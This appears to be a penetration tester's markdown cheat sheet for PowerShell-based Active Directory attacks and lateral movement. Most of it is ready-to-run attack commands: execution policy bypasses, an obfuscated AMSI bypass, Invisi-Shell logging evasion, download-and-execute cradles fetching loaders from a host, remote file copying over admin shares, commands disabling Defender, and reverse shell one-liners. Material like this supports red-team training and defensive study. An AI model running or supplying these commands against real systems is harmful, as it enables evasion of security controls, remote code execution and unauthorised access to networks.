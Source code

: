 ```yaml
---
tags:
  - general
  - domain-enumeration
  - lateral-movement
---
```

##### Introduction
- Case insensitive
- .NET compliant and reliant, classes for AD are in System.DirectoryServices.ActiveDirectory
- Shell of the future, shell for the cloud
- Available not only on Windows, its called PowerShell Core.
- It is not powershell.exe, that is just a way to run System.Management.Automation.dll which is actually PowerShell.

##### Basic functionality

```powershell title:"Get the contents of a file"
gEt-COnTeNt file.txt
```

```powershell title:"help for a cmdlet"
Get-Help cmdlet-goes-here
```

```powershell title:"dot-sourcing"
. C:\AD\Tools\PowerView.ps1
```

```powershell title:"import a module or a script"
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```powershell title:"list all the commands in a module"
Get-Command -Module <module_name>
```

##### Execution Policy

![[tweet.png]]

- It prevents users from accidentally executing scripts. Yeah.
- Here are [15 other ways to bypass it](https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy/)

```batch title:"bypass execution policy using batch or powershell"
1. powershell -ExecutionPolicy bypass
2. powershell -c cmd
```

```powershell title:"bypass execution policy using powershell"
$env:PSExecutionPolicyPreference="bypass"
```

##### The actual bypasses

###### Invisi-Shell

- The tool hooks the .NET assemblies (System.Management.Automation.dll and System.Core.dll) to bypass logging.
- It uses a CLR profiler API to perform the hook.

```batch title:"using invisi-shell with admin privileges"
RunWithPathAsAdmin.bat
```

```batch title:"using invisi-shell without admin privileges"
RunWithRegistryNonAdmin.bat
```

###### AMSI bypass

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (('b'+("{1}{0}"-f':1','lE'))+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f(('U'+'ti')+'l'),'A',('Am'+'si'),(('.'+'Man')+('ag'+'e')+('me'+'n')+'t.'),('u'+'to'+(("{1}{0}"-f 'io','mat')+'n.')),'s',(('Sys'+'t')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+('ms'+'i')),'d',('I'+('n'+'itF')+('a'+'ile'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+('t'+'at')),'i',(('N'+'on')+('Pu'+'bl')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

###### Download a file from an advanced foothold

```powershell title:"Download from webserver"
iex (iwr http://10.0.2.15/Loader.exe -UseBasicParsing)
iex ((New-Object Net.WebClient).DownloadString('http://10.0.2.15/SharpHound.ps1'))
iwr http://10.0.2.15/Safety.bat -OutFile C:\Users\Public\Argsplit.bat
```

```batch title:"Remotely copy"
echo F | xcopy C:\Users\Public\Argsplit.bat \\remote-machine\C$\Users\Public\Safety.bat
```
###### Avoid Detection

```batch title:"Portforwarding from an advanced foothold"
$null | winrs -r:remote-computer "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=10.0.2.15 connectaddress=80"
```

```batch title:'Splitting arguments'
Argsplit.bat
```

###### Disable defender

```powershell title:"Disable Real-Time monitoring (needs admin privileges)"
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true
```

###### Reverse Shell

```batch title:"Reverse shell"
powershell iex (iwr -UseBasicParsing http://your.ip/Invoke-PowerShellTcp.ps1);Power -Reverse -IPAddress your.ip -Port your.port
powershell -c iex ((New-Object Net.WebClient).DownloadString('http://your.ip/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress your.ip -Port your.port
```

###### Security

```powershell title:"Check Language Mode"
$ExecutionContext.SessionState.LanguageMode
```

```powershell title:"List Applocker policy"
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

```powershell title:"Find AV exclusion paths on the foothold (needs admin privileges)"
Get-MpPreference | select -Property ExclusionPath
```

###### List environment variables

```powershell title:":)"
ls :env
```

